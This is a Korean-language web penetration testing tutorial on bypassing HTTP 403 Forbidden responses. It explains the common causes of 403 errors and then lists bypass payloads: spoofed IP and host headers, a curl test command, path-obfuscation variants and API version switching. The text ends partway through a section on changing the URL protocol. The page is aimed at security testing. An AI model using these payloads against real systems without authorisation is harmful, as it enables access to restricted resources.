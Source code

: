 ```yaml
---
title: 403 Bypass
layout: default
parent: Web Penetration Test
nav_order: 2.7
description: "Web hacking"
---
```



# Bypass 403 Forbidden

{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }

1. TOC
{:toc}

"403 Forbidden"은 웹 서버가 요청을 거부했을 때 발생하는 HTTP 상태 코드 중 하나 입니다. 403 오류 메세지는 사용자가 요청한 리소스에 접근할 권한이 없다는 뜻을 의미 합니다. 보통 서버측에서 권한 설정을 잘못 했거나, 요청한 페이지나, 특정 파일이 특정 사용자에게만 허용되었을때 발생할 수 있습니다.

## Reasons of 403 Forbidden

403 Forbidden이 발생하는 일반적인 이유는 다음과 같습니다.

1. Not Enough Privileges (권한 부족): 서버가 해당 리소스에 대한 접근을 제한하거나, 로그인한 사용자가 접근할 수 없는 리소스를 요청했을 때 발생할 수 있습니다.

2. IP 차단: 특정 IP나 지역에서의 접근을 차단했을 때도 발생할수 있습니다.

3. WAF (Web Application Firewall)로 인한 차단: 웹 서버에 대한 다양한 공격들을 감지하면 WAF에서 403 Forbidden 응답을 반환할 수 있습니다. 

4. 봇 탐지 및 차단: 봇이 서버에 불법적으로 접근하거나 스팸, 크롤링, 디도스 등 악의적인 행동을 하게되면 403 Forbidden 오류가 발생할 수 있습니다.

5. CORS (Cross-Origin Resource Sharing): 보안상의 이유로, 웹 브라우저에서 다른 도메인에서 온 리소스에 대한 접근 제한을 할수 있습니다. 

6. 디렉토리 리스팅 차단: 디렉토리 리스팅을 허용하면 공격자가 서버의 파일 구조를 탐색할 수 있습니다. 이것을 방지하기 위해 디렉토리 리스팅 차단하는 설정을 할 수 있습니다.

7. HTTP 요청 헤더 분석: 비정상적인 HTTP 요청 헤더가 올 경우, 차단하는 경우가 있을 수 있습니다.


## 403 Bypass 방법 

### Bypassing IP and Host restriction

HTTP 헤더는 여러가지 커스텀 헤더들이 존재합니다. 다양한 WAF나 웹 어플리케이션이 커스텀 헤더들을 받는 경우도 많고 않쓰이는 헤더들을 필터링을 못하는 경우도 많습니다. 

여러 IP나 Host를 커스텀해더로 바꿀 수 있습니다.

```js
    X-Custom-IP-Authorization: 127.0.0.1
    X-Forwarded: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Forwarded-Host: localhost
    X-Forwarded-By: 127.0.0.1
    X-Forwarded-Port: 80
    X-Forward-For: 127.0.0.1
    X-Remote-IP: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Client-IP: 127.0.0.1
    X-Real-IP: 127.0.0.1
    X-True-IP: 127.0.0.1
    Redirect: http://localhost
    Referer: http://localhost
    Host: localhost
```

Curl로도 해당 여러 취약점을 테스트 해볼 수 있습니다.

```js
curl -i -k -H "X-Forwarded: 127.0.0.1" https://example.com
```

### Bypassing path-base blocking

URI Path 기반으로 403 Forbidden이 발생하는 경우, 아래와 같은 리스트를 활용해 해당 URL을 나타내지만 정규식에 걸리지 않도록 경로를 우회하는 로직을 사용할 수 있습니다.

```
    localhost/path
    localhost/%2e/path
    /path%20
    /path%09
    /path%00
    /%90/path
    /%2e/path
    /path/
    /path/.
    //path//
    /./path
    /;/path
    /.;path
    //;//path
    /path..;/
    /path/..;/
    /path.json
    /path.css
    /path.html
    /path?
    /path??
    /path???
    /path?testparam
    /path#
    /path#test
```

### Changing API Version
 
API를 테스트 하는경우, 여러 API 버전들을 바꿔가면서 테스트를 해볼수 있습니다.

```
/v1/secret
/v2/secret
```

### Changing URL Protocol

때로는 https에서만 Access Control을 하는 경우가 있습니다.